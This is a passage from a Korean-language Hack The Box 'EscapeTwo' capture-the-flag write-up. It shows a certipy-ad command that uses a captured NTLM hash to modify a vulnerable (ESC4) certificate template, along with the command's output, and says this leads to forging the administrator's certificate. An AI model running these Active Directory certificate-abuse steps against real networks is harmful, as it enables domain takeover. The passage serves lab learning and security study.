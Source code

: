 ![temp1](/assets/img/writeup/HTB/escapetwo/temp1.png)

![temp2](/assets/img/writeup/HTB/escapetwo/temp2.png)

그럼 DunderMifflinAuthentication이라는 템플릿이 조회가 되고 ESC4 취약점이 있다고 나온다.

```sh
sudo certipy-ad template -username 'ca_svc@sequel.htb' -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -template DunderMifflinAuthentication -save-old
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'DunderMifflinAuthentication' to 'DunderMifflinAuthentication.json'
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
```

아래의 명령어로 administrator의 인증서를 조작할 수 있다.

![req](/assets/img/writeup/HTB/escapetwo/req.png)
